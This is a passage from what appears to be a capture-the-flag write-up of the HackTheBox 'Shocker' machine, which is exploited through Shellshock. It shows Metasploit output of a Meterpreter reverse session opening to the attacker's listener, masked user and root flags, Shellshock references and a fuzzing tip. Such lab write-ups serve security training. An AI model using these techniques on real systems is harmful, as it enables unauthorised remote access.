 ```
[*] Command Stager progress - 100.46% done (1097/1092 bytes)
[*] Sending stage (984904 bytes) to 10.10.10.56
[*] Meterpreter session 1 opened (10.10.16.173:4444 -> 10.10.10.56:56694) at 2021-08-01 10:38:10 -0400

meterpreter > getuid
Server username: shelly @ Shocker (uid=1000, gid=1000, euid=1000, egid=1000)
```
## **Privilege Escalation**
The previous escalation vector can be used to gain root privilege here as well.


# Post-Exploitation
## **User Flag**
```
10.10.10.56> cat user.txt
ca****************************65
```
## **Root Flag**
```
# cat root*	
b8****************************54
```

# Resources for Shellshock
1. https://owasp.org/www-pdf-archive/Shellshock_-_Tudor_Enache.pdf) 
2. https://blog.cloudflare.com/inside-shellshock/

# Final Notes
1. Fuzz for all possible extensions instead of only the ones that might be related to the server tech stack.